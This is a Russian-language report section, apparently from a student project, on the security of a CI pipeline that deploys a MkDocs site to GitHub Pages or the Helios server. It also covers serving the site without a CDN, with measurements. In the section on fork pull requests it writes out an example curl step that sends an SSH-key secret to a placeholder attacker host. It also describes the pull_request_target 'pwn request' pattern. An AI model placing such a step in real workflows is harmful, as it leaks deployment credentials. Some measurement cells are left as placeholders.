



# T4. Модель доставки и безопасность пайплайна

## Постановка

Сайт с результатами экспериментов — тоже программа, которую исполняет браузер
читателя. Тот, кто может подменить файлы сайта, может подменить цифры
результатов или вставить скрипт, работающий от имени сайта. Поэтому вопрос
«как файлы попадают на хостинг» — это вопрос о том, **какие учётные данные
лежат в CI, что они позволяют и что будет, если их украдут**.

## Сравнение способов доставки { #methods }

| Способ | Учётные данные | Объём прав | Срок жизни | Последствия компрометации |
|---|---|---|---|---|
| Push в `gh-pages` токеном workflow | `GITHUB_TOKEN` с `contents: write` | запись во **все** незащищённые ветки и теги репозитория, создание релизов; изменять `.github/workflows/` токен не может | до конца job, не более 24 ч | подмена сайта **и исходного кода**: можно дописать коммит в `master`, если ветка не защищена |
| `upload-pages-artifact` + `deploy-pages` | OIDC-токен (`id-token: write`) + `pages: write` | только публикация на Pages этого репозитория | минуты, на время job | подмена сайта до следующей выкладки; код и другие ресурсы недоступны |
| `rsync`/`scp` по SSH с deploy-ключом | приватный ключ в секрете + запись в `authorized_keys` | **весь аккаунт** на сервере: все файлы, почта, работы по другим курсам; без `restrict` — ещё и туннели в сеть университета | бессрочно, пока ключ не удалён с сервера | полный контроль над аккаунтом; при `port forwarding` — точка входа во внутреннюю сеть |
| FTP / SFTP | логин и пароль (часто тот же, что для входа) | весь аккаунт; у FTP пароль и файлы идут открытым текстом | бессрочно | как у SSH, плюс перехват пароля в сети при FTP без TLS |
| S3 API (Yandex Object Storage и др.) | статический ключ сервисного аккаунта (ID + секрет) | задаётся ролью: можно ограничить одним бакетом и только загрузкой | бессрочно, пока ключ не отозван | подмена или удаление содержимого бакета, расходы на трафик; остальное облако недоступно при узкой роли |

Выводы из таблицы:

1. **Лучший вариант по модели угроз — `deploy-pages`**: короткоживущий токен,
   права только на публикацию, ни одного хранимого секрета.
2. **SSH на Helios — самый «дорогой» при утечке**: ключ даёт не «право выложить
   сайт», а студенческий аккаунт целиком. Это нельзя исправить настройками CI,
   только ограничениями на стороне сервера (см. ниже).
3. **S3 занимает середину**: секрет хранимый, но права можно сузить до одного
   бакета и одной операции. Для синхронизации с удалением устаревших файлов
   нужна роль шире, чем только загрузка.
4. **FTP без TLS не стоит использовать вообще** — пароль виден любому на пути
   пакетов.

### Как сужены права SSH-ключа в этом проекте

- Ключ отдельный, только для CI, без пароля и без других применений.
  Его утечка не раскрывает личный ключ студента.
- В `authorized_keys` ключ добавлен с опцией `restrict`: запрещены проброс
  портов, агентов и X11, выделение терминала. Даже с украденным ключом нельзя
  сделать туннель во внутреннюю сеть ИТМО.
- Ключ лежит в **секрете окружения** `helios`, а не репозитория: его получают
  только job с `environment: helios`, а не любой workflow.
- В job доставки нет сторонних actions: только `actions/checkout`,
  `actions/download-artifact` и собственные скрипты. Сборка, где работают
  MkDocs и его плагины, идёт в отдельном job **без секретов**.

!!! warning "Остаточный риск"
    `restrict` не ограничивает, **какие команды** выполняет владелец ключа:
    скрипт выкладки передаётся на сервер через stdin (`sh -s`), значит ключ
    по-прежнему позволяет выполнить любую команду. Полное решение — положить
    скрипт на сервер и разрешить ключу только его:
    `restrict,command="~/bin/rg-deploy-gate" ssh-ed25519 …`, где
    `rg-deploy-gate` проверяет `$SSH_ORIGINAL_COMMAND` по белому списку
    (`rsync --server … rg-site/…`, `tar -xf - -C rg-site/…`). В отчёт это
    вынесено как следующее улучшение.

## Ответы на вопросы

### Почему секреты недоступны в workflow по `pull_request` из форка { #fork-secrets }

При событии `pull_request` запускается **код из ветки PR**, то есть код автора
форка, включая изменённые им workflow-файлы и скрипты сборки. Если бы такому
запуску выдавались секреты, любой пользователь GitHub мог бы открыть PR с шагом
`curl https://злоумышленник/?k=$HELIOS_SSH_KEY` и забрать ключ, ничего не
вливая в основную ветку. Поэтому GitHub для PR из форков:

- не передаёт секреты репозитория и окружений (пустые строки вместо значений);
- выдаёт `GITHUB_TOKEN` только на чтение;
- для первых вкладов внешних авторов требует ручного одобрения запуска.

Опасный обход — событие `pull_request_target`: оно выполняется в контексте
основной ветки **с секретами**. Если в нём сделать checkout кода из PR и
запустить его (`pip install .`, `mkdocs build` с плагинами из PR), это та же
утечка секретов («pwn request»). В нашем workflow `pull_request_target` не
используется; для PR выполняется только сборка, job доставки пропускаются.

### Зачем фиксировать сторонние actions по SHA, а не по тегу { #pin-sha }

Тег в git — изменяемый указатель: владелец action (или тот, кто получил доступ
к его репозиторию) может перевесить `v4` на другой коммит, и при следующем
запуске ваш workflow выполнит новый код без каких-либо изменений с вашей
стороны. SHA коммита — хеш содержимого, его нельзя «перевесить».

Это не теоретический риск. В марте 2025 года в популярном action
`tj-actions/changed-files` (уязвимость CVE-2025-30066) теги перенаправили на
вредоносный коммит. Он выводил секреты из памяти раннера в лог сборки, а логи
публичных репозиториев видны всем. Workflow, закреплённые по SHA, не
пострадали.

В нашем workflow все actions закреплены по полному SHA, версия — в комментарии:

```yaml
- uses: actions/checkout@34e114876b0b11c390a56381ad16ebd13914f8d5 # v4.3.1
```

SHA проверены через `git ls-remote https://github.com/actions/checkout refs/tags/v4.3.1`.
Обновлять такие ссылки удобно через Dependabot, он понимает формат `@sha # vX`.
Ограничение: закрепление защищает только сам action. Если action внутри
скачивает что-то по изменяемой ссылке (`docker://…:latest`, другой action
`@v1`, `pip install` без версии), этот код по-прежнему может поменяться.

!!! note "Существующий workflow CI"
    Workflow `CI` из первой лабораторной ссылается на `actions/checkout@v4` и
    `astral-sh/setup-uv@v3` по тегам. Секретов он не использует, поэтому
    риск ниже, но перевод на SHA — тот же шаг.

### Supply-chain-атака через action и её последствия для сайта { #supply-chain }

Supply-chain-атака — компрометация не вашего кода, а того, от чего он зависит:
action, пакета PyPI, плагина MkDocs, базового Docker-образа. Вредоносный код
запускается внутри вашего job с его правами. Что это значит для сайта:

| Где выполнился вредоносный код | Что ему доступно | Последствия для опубликованного сайта |
|---|---|---|
| Job сборки (плагин MkDocs, пакет PyPI, action в сборке) | файлы сборки, `GITHUB_TOKEN` этого job | в HTML встраивается скрипт: майнер, фишинговая форма, сбор данных посетителей. Можно незаметно **изменить числа в таблицах результатов** — для научного сайта это худший исход, его не видно глазом |
| Job доставки | SSH-ключ / токен Pages | всё то же, плюс постоянный доступ к аккаунту Helios: подмена сайта в любой момент после атаки, в обход CI |
| Job с `contents: write` | право записи в репозиторий | закладка в исходники, которая переживёт исправление уязвимого action |

Защита в этом проекте построена на разделении:

- сборка не видит секретов, поэтому заражённый плагин может испортить только
  артефакт, который затем проверяется;
- доставка не исполняет чужого кода, кроме двух actions GitHub;
- healthcheck сверяет хеш коммита на опубликованной странице;
- все пакеты сборки закреплены точными версиями.

### Как настроить `known_hosts`, не отключая проверку ключа хоста { #known-hosts }

Типичная ошибка — `StrictHostKeyChecking=no` или `ssh-keyscan` прямо в
workflow. Оба варианта доверяют **первому, кто ответил** на адрес сервера.
При подмене DNS или маршрута CI отдаст ключ и файлы чужому серверу, и
никакой ошибки не будет.

Правильная последовательность:

1. **Один раз, вручную**, получить ключ хоста:

    ```bash
    ssh-keyscan -p 2222 -t ed25519 helios.cs.ifmo.ru > helios_known_hosts
    ssh-keygen -lf helios_known_hosts
    # 256 SHA256:⟨отпечаток⟩ [helios.cs.ifmo.ru]:2222 (ED25519)
    ```

2. **Сверить отпечаток по независимому каналу**: с опубликованным
   администраторами, с отпечатком при первом входе из сети университета или
   через VPN ИТМО, с уже проверенной записью в вашем `~/.ssh/known_hosts`
   (`ssh-keygen -F '[helios.cs.ifmo.ru]:2222'`).
3. Сохранить строку целиком в переменной репозитория `HELIOS_KNOWN_HOSTS`.
   Ключ хоста открытый, секретом он быть не обязан, но менять его должен
   только тот, кто его проверил.
4. В CI записать её в файл и подключиться со строгой проверкой:

    ```bash
    ssh -o StrictHostKeyChecking=yes \
        -o UserKnownHostsFile=~/.ssh/known_hosts_helios ...
    ```

При нестандартном порте запись в `known_hosts` имеет вид `[хост]:2222`, без
скобок ssh её не найдёт. Если администраторы сменят ключ сервера, выкладка
упадёт с `REMOTE HOST IDENTIFICATION HAS CHANGED`. Это правильное поведение:
новый ключ нужно снова сверить, а не отключать проверку.

## Работа без CDN { #cdn }

### Что было внешним

Типовая конфигурация Material из документации загружает три вида внешних
ресурсов:

| Ресурс | Откуда | Блокирует отрисовку |
|---|---|---|
| Шрифты Roboto, Roboto Mono | `fonts.googleapis.com` (CSS) → `fonts.gstatic.com` (woff2) | **да**: CSS шрифтов подключён в `<head>` |
| MathJax | `cdn.jsdelivr.net` | нет, но без него формулы остаются исходным TeX |
| Число звёзд и форков репозитория | `api.github.com` из JS темы | нет |

Иконки Material встраивает в HTML как SVG при сборке, а поиск (lunr и
русский стеммер) поставляется вместе с темой — внешними они не являются.

### Что сделано

| Ресурс | Решение | Где |
|---|---|---|
| Шрифты | `theme.font: false` — системный стек шрифтов | `mkdocs.yml` |
| MathJax | файл `tex-svg.js` 3.2.2 в репозитории; вывод SVG, которому не нужны веб-шрифты | `docs/assets/vendor/mathjax/` |
| Запрос к GitHub API | переопределён `partials/source.html` без `data-md-component="source"` | `overrides/partials/source.html` |
| Контроль | `scripts/check_offline.py` в CI ищет внешние `src`/`href` в HTML и CSS | job `build` |

Статическая проверка HTML не видит запросов, которые делает JavaScript: запрос
к `api.github.com` нашёлся только при замере в браузере (см.
[Отладка, ошибка 6](debugging.md#e6)). Поэтому замер в браузере обязателен.

### Замеры

Методика: Chromium 141 (headless, Playwright), сайт отдаётся локальным
HTTP-сервером, страница — [тестовая страница с формулами](math-check.md).
Внешние запросы перехватываются тремя способами: обрываются сразу (сервер
недоступен), не получают ответа («висящий» CDN) или пропускаются. Среда
подготовки отчёта сама не имела доступа к CDN (прокси отвечал 403 на
`cdn.jsdelivr.net` и `fonts.googleapis.com`), так что «CDN недоступен» — это
реальное состояние сети, а не только эмуляция. Скрипт:
`scripts/measure_page.py`, контрольная конфигурация: `mkdocs-cdn.yml`.

| Вариант | CDN | Запросов (внешних) | Отрисовано формул | Первая отрисовка | Вес без сжатия | Вес gzip |
|---|---|---|---|---|---|---|
| **Локальные ресурсы** | недоступен | 12 (0) | **8 из 8** | 0,21 с | 2 655 809 Б | 795 764 Б |
| Локальные ресурсы | «висит» | 12 (0) | 8 из 8 | 0,24 с | 2 655 809 Б | 795 764 Б |
| Ресурсы с CDN | недоступен | 13 (2, оба с ошибкой) | **0 из 8** | 0,26 с | 547 595 Б | 117 965 Б |
| Ресурсы с CDN | «висит» | 7 (1 без ответа) | 0 | **нет за 48 с** | 297 209 Б | 67 826 Б |
| Ресурсы с CDN | доступен | ⟨замерить в DevTools⟩ | 8 из 8 | ⟨замерить⟩ | 547 595 Б + 2 108 580 Б MathJax + шрифты ⟨замерить⟩ | — |

Вес «с CDN, CDN недоступен» меньше только потому, что MathJax не загрузился:
без него локальный вариант весит 2 655 809 − 2 108 580 = 547 229 Б, то есть
столько же.
В вес входит и индекс поиска `search_index.json`: тема загружает его сразу,
поэтому он растёт вместе с текстом сайта.


/// caption
Вариант с CDN при недоступном `cdn.jsdelivr.net`: вместо формул — исходный TeX.
///


/// caption
Вариант с локальным MathJax в той же сети: формулы пронумерованы, ссылки работают.
///

<figure markdown="span">
  { width="260" }
  <figcaption>Локальный вариант на ширине 390 px: формулы не выходят за экран.</figcaption>
</figure>

### Выводы по CDN

1. **Самый опасный сценарий — не «CDN недоступен», а «CDN не отвечает».**
   Отказ соединения браузер обрабатывает за миллисекунды. Если же пакеты к
   `fonts.googleapis.com` молча отбрасываются (фильтрация, деградация сети),
   CSS шрифтов в `<head>` не загружается. Браузер не начинает отрисовку, и
   читатель видит **пустой экран** до тайм-аута соединения. В замере страница
   не отрисовалась за все 48 с наблюдения.
2. **Локальное размещение MathJax не увеличивает вес страницы** по сравнению
   с CDN: это тот же файл `tex-svg.js` 3.2.2, 2 108 580 Б (677 949 Б в gzip).
   Отказ от шрифтов Roboto вес **уменьшает** на размер их файлов woff2.
   Разделяемого между сайтами кэша CDN-файлов в современных браузерах нет:
   кэш разделён по сайтам, поэтому «у читателя уже есть MathJax с CDN» не
   работает.
3. **Цена локального размещения — объём сайта и выкладки**: +2,1 МБ (37 %
   сайта) в каждой копии. На Helios хранится несколько релизов, это учтено в
   [P4](p4-helios.md).
4. **MathJax загружается на всех страницах**, включая страницы без формул:
   2,1 МБ без сжатия при первом заходе. Следующие страницы берут его из кэша
   браузера. Если это критично, скрипт можно подключать только на страницах с
   формулами через хук MkDocs или блок `extrahead` в переопределении темы.
